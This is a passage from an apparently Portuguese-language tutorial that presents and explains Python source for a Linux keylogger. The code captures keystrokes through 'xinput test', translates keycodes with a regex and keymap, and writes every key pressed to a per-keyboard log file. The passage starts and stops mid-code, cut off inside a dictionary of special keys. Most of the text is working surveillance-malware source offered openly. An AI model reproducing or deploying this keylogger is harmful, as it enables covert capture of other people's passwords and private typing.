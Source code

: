     def __del__(self):
        self.__exit__()

    def __exit__(self):
        self._file.close()

    def run(self):
        self._log()</pre>

onde `self._log()`, definida no corpo da thread, é a função que contém o núcleo do keylogger em si:

<pre lang="python">def _log(self):
        logger = bash.xinput("test", self._keyboard, _iter=True)
        keymap = self._get_keymap()
        try:
            for line in logger:
                match = KEYPRESS_REGEX.match(line)
                if match:
                    keycode = match.groups()[0]
                    key = keymap[keycode]
                    self._writen_file(key)
        except Exception:
            print "Salved into %s" % self._filename</pre>

Essa função utiliza a regex definida anteriormente para extrair cada código das teclas digitado e substituir pelo respectivo caractere. Após cada tecla ser digitada, ela é salva no arquivo respectivo ao código do teclado (`keyboard%d.log`). Abaixo segue essa classe completa, com todos os métodos listados:

<pre lang="python">class Keylogger(Thread):
    """Keylogger for a single keyboard"""
    def __init__(self, keyboard):
        Thread.__init__(self)
        self._keyboard = keyboard
        self._filename = 'keyboard%d.log' % self._keyboard
        self._file = open(self._filename, 'w+')
        self.__define_constants()

    def __del__(self):
        self.__exit__()

    def __exit__(self):
        self._file.close()

    def run(self):
        self._log()

    def __define_constants(self):
        self._special_chars = {
            'space': ' ',
            'apostrophe': "'",
            'BackSpace': ' (Backspace) ',
            'Return': ' \n',
            'period': '.',
            'Shift_L1': ' (Shift1) ',
            'Shift_L2': ' (Shift2) ',
            'Control_L': ' (ControlL) ',
            'ccedilla': 'ç',
            'backslash': '\\',
            'dead_tilde': '~',
            'Shift_L': ' (ShiftL) ',
            'Shift_R': ' (ShiftR) ',
            'minus': '-',
            'equal': '=',
            'Alt_L': ' (AltL) ',
            'Escape': ' (esc) ',
            'F1': ' (F1) ',
            'F2': ' (F2) ',